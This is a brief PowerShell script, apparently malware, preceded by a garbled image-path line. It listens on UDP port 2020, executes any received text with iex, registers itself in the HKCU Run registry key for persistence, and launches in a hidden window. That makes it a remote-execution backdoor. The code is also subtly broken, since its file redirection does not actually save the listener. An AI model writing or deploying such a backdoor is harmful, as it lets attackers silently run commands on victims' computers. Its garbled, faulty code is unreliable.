 $rutaScript = Join-Path $env:HOMEDRIVE "\Users\$env:USERNAME\script.ps1";$port = 2020;$endpoint = New-Object System.Net.IPEndPoint ([IPAddress]::Any, $port);$udpclient = New-Object System.Net.Sockets.UdpClient $port;$content = $udpclient.Receive([ref]$endpoint);[Text.Encoding]::ASCII.GetString($content) | iex ;$udpclient.Dispose() > $rutaScript

$nombreEntrada = "MiScript"
$valorEntrada = "powershell.exe -File $rutaScript"
if ((Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name $nombreEntrada -ErrorAction SilentlyContinue) -eq $null) {
    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name $nombreEntrada -Value $valorEntrada
}
Start-Process -FilePath "powershell.exe" -ArgumentList "-WindowStyle Hidden -File $rutaScript" -NoNewWindow -PassThru


